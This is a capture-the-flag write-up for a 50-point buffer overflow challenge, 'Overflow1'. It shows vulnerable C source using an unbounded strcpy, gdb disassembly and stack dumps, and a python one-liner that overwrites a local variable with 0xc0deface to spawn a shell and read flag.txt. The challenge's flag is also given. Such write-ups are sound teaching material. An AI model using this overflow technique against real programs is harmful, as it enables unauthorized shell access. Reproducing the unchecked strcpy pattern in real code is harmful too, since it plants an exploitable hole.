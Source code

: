 ### Solved by et0x

Overflow1 is a 50 point binary exploitation challenge.


> This problem has a buffer overflow vulnerability! Can you get a shell, then use that shell to read flag.txt? You can solve this problem interactively here, and the source can be found here.

The source for the binary is the following:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}

```

So the goal here is to fill the "buf" array with 16 characters, and overflow the next four bytes with "0xc0deface" so that we execute the give_shell() function.  This should be easy enough, lets look at it in gdb.

First, lets disassemble the "vuln" function.

```bash
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048512 <+0>:	push   %ebp
   0x08048513 <+1>:	mov    %esp,%ebp
   0x08048515 <+3>:	sub    $0x38,%esp
   0x08048518 <+6>:	movl   $0x0,-0xc(%ebp)
   0x0804851f <+13>:	mov    0x8(%ebp),%eax
   0x08048522 <+16>:	mov    %eax,0x4(%esp)
   0x08048526 <+20>:	lea    -0x1c(%ebp),%eax
   0x08048529 <+23>:	mov    %eax,(%esp)
   0x0804852c <+26>:	call   0x8048390 <strcpy@plt>
   0x08048531 <+31>:	cmpl   $0xc0deface,-0xc(%ebp)
   0x08048538 <+38>:	jne    0x8048541 <vuln+47>
   0x0804853a <+40>:	call   0x80484dd <give_shell>
   0x0804853f <+45>:	jmp    0x8048554 <vuln+66>
   0x08048541 <+47>:	mov    -0xc(%ebp),%eax
   0x08048544 <+50>:	mov    %eax,0x4(%esp)
   0x08048548 <+54>:	movl   $0x804861b,(%esp)
   0x0804854f <+61>:	call   0x8048370 <printf@plt>
   0x08048554 <+66>:	leave  
   0x08048555 <+67>:	ret
```

Let's place a breakpoing at 0x08048531 so that we can see whats on the stack, and view the data as the "cmpl" instruction sees it.

```
(gdb) b * 0x08048531
Breakpoint 1 at 0x8048531
(gdb) run AAAAAAAAAAAAAAAA
Starting program: /home/overflow1/overflow1 AAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048531 in vuln ()

(gdb) x/20xb $ebp-0xc-16
0xffffd6cc:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6d4:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6dc:	0x00	0x00	0x00	0x00
```
And now, with more than 16 bytes...

```
0xffffd6cc:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6d4:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd6dc:	0x41	0x41	0x41	0x41
```

So now we see that we can overflow the buffer.  Let's fill the last four bytes (secret) with 0xc0deface. Remember to put the bytes in little-endian order.

```bash
pico1139@shell:/home/overflow1$ ./overflow1 $(python -c 'print "A"*16+"\xce\xfa\xde\xc0"')
$ id
uid=11066(pico1139) gid=1002(overflow1) groups=1017(picogroup)
$ cat flag.txt
ooh_so_critical
```

So the flag is **ooh_so_critical**

